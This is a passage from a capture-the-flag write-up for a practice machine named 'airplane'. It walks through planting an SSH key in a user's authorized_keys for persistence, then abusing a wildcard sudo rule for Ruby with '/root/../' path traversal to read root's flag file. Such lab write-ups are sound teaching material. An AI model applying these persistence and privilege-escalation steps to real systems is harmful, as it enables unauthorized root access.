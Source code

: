 ## Privilege Escalation to Root
### Shell Stabilisation - SSH
There are few things that exist in this world that are worse than a raw `netcat` shell, so for the sake of sanity, let's add our SSH public key to `/home/carlos/.ssh/authorized_keys`.
```zsh
echo "<CONTENTS_OF_YOUR_/HOME/USER/.SSH/ID_RSA.PUB" >> /home/carlos/.ssh/authorized_keys
```
Now, we can SSH into the machine as `carlos`, and we will get an SSH (stable) shell, much better.
```zsh
ssh carlos@airplane
...
carlos@airplane:~$
```
### Interesting `Sudo` Permissions
As with any machine, I begin by running `sudo -l` to see if my user can run anything as root.

Interesting, we can observe the following entry:
```zsh
(ALL) NOPASSWD: /usr/bin/ruby /root/*.rb
```
This means that we can run `/usr/bin/ruby` as root, but only with any file ending in `.rb` within the `/root/` directory as an argument.

This is not secure as it only checks that `/root/` is the first thing in the argument, after that, it doesn't care. This means that we can do: `/root/../home/carlos/evil_script.rb`, or similar.

First, let's create a ruby file which will read the contents of `/root/root.txt`, as we know this is where the flag will be (THM is consistent with this). Let's put it in `carlos` home directory, I called it `evil_script.rb`
```ruby
#!/usr/bin/env ruby

file_path = '/root/root.txt'

begin
  content = File.read(file_path)
  puts content
rescue Errno::EACCES
  puts "Permission denied: #{file_path}"
rescue Errno::ENOENT
  puts "File not found: #{file_path}"
rescue => e
  puts "An error occurred: #{e.message}"
end
```

Now, let's execute it using the insecure `sudo` configuration
```zsh
sudo /usr/bin/ruby /root/../home/carlos/evil_script.rb
190d****************e002
```
